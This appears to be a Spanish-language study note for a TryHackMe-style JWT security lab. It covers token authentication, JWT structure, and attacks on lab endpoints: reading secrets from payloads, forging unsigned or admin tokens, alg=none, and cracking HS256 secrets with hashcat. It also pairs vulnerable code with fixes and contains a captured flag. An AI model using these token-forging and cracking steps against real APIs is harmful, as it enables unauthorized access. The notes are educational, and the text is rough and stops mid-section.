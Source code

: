 # Seguridad de JWT
Aprenderemos sobre los JSON Web Tokens (JWTs) y la seguridad asociada a ellos. Con esto sus APIs, autentificación basada en tokens siendo la mas popular, y las mayores implementaciones

# Objetivos de aprendizaje

- Aprender sobre autentificación basada en tokens
- Aprender sobre JSON web tokens
- Aprender sobre porque son populares
- Aprender sobre la seguradad y consideraciones cuando usamos JWTs
- Aprender como atacatar implementaciones vulnerables de JWT

# Autentificación basada en Token

## El ascenso de las APIs

APIs, son increiblemente populares hoy en día. Una de las razones por este boom esta disponible para crear una sola API esque puede tener diferentes interfaces, como una aplicación web y aplicacion de móvil en el mismo tiempo. Esto es una lógica de servidor centralizado. Para una perspectiva de seguridad, esto es beneficioso porque implementamos la misma seguridad en una sola API.

Sin embargo, los nuevos metodos de sesión se crean con las Apis. Las cookies normalmente se asocian a las aplicaciones web usadas por el navegador, las basadas en cookies normalmente no funcionan bien. 

## Token Basados en gestión de sesión

Este tipo de tokens son relativamente un concepto nuevo. En cambio usando el navegador automaticamente la cookie funcionaba, después de la autentificación, la aplicacion da un codigo con un body. Usa el lado cliente el JS, el toquen se guarda en el navegador.

## Projectos API

Vamos a aprender a explotar API. documentar metodos.

### API Final 

El prjecto de API tiene un endpoint (en este caso) http://ip/api/v1.0/exampleX

### Credenciales

user:passwordX

### Ejemplos

```
curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "passwordX" }' http://10.10.48.144/api/v1.0/exampleX
```
```
curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "passwordX" }' http://10.10.48.144/api/v1.0/exampleX
```

El JWT token se puede remplazar por ejemplo por usuario:contraseña como en el anterior caso

# JSON Web Tokens

JWTs son contenedores de tokens que se usan para trasmitir la información segura. Es un stardar abierto, dando información al desarrollador y creador de libreria.

## JWT Estructura

- Header
- Payload
- Signature

## Algoritmos firmados

- None
- Symmetric Signing
- Asymmetric Signing

# Información Sensible

## Ejemplo práctico 1

```
curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password1" }' http://10.10.48.144/api/v1.0/example1
```

[Decodificar](https://jwt.io)

Esto nos da un token JWT lo decodificamos

```
payload = {
    "username" : username,
    "password" : password,
    "admin" : 0,
    "flag" : "[redacted]"
}

access_token = jwt.encode(payload, self.secret, algorithm="HS256")
```

### Como arreglarlo

```
payload = jwt.decode(token, self.secret, algorithms="HS256")

username = payload['username']
flag = self.db_lookup(username, "flag")
```

Que se guarden en variables del server

# Fallos Validad Firmas

### No verificar las firmas

EL primer falo es no verificar las firmas cuando hay firmas de validacion. Si el servidor no verifica la firma del JWT, es posible modifical el JWF como queramos. Mientras no sea comun encontrar APis sin calidacion.

### Ejemplo practivco

```
curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password2" }' http://10.10.48.144/api/v1.0/example2
```

```
curl -H 'Authorization: Bearer [JWT Token]' http://10.10.48.144/api/v1.0/example2?username=user
```

No verificada

```
payload = jwt.decode(token, options={'verify_signature': False})
```

Si verificada

```
payload = jwt.decode(token, self.secret, algorithms="HS256")
```

### Ejemplo practico

La aplicación autentificada recibe el JWT verificado por el usuario. Podemos usar CybertChedf para hacer Url-Encodeadas en Base64. 

```
header = jwt.get_unverified_header(token)

signature_algorithm = header['alg']

payload = jwt.decode(token, self.secret, algorithms=signature_algorithm)
```

Arreglado

```
payload = jwt.decode(token, self.secret, algorithms=["HS256", "HS384", "HS512"])

username = payload['username']
flag = self.db_lookup(username, "flag")
```

### Ejemplo practico

Usaremos para generar JWT haschat para crackear el sectro

1- Guadra el JWF en jwt.txt
Descargar ljwt secre list

```
 wget https://raw.githubusercontent.com/wallarm/jwt-secrets/master/jwt.secrets.list
```

3- Usar hashcat 

```
hashcat -m 16500 -a 0 jwt.txt jwt.secrets.list
```

### Práctica

Ejemplo 2 :

```
curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password2" }' http://10.10.14.214/api/v1.0/example2
{
  "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.UWddiXNn-PSpe7pypTWtSRZJi1wr2M5cpr_8uWISMS4"
}

```

Nos vamos a la jw.tio y cambiamos el payload a admin = 1

```
curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MX0.q8De2tfygNpldMvn581XHEbVzobCkoO1xXY4xRHcdJ8' http://10.10.14.214/api/v1.0/example2?username=admin
{
  "message": "Welcome admin, you are an admin, here is your flag: THM{6e32dca9-0d10-4156-a2d9-5e5c7000648a}"
}
```

Ejemplo 3:

```
 curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password3" }' http://10.10.14.214/api/v1.0/example3
{
  "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0._yybkWiZVAe1djUIE9CRa0wQslkRmLODBPNsjsY8FO8"
}
```

Cyberchief y cambiamos el alg=none

# Vida de un JWT

## Vida de un Token




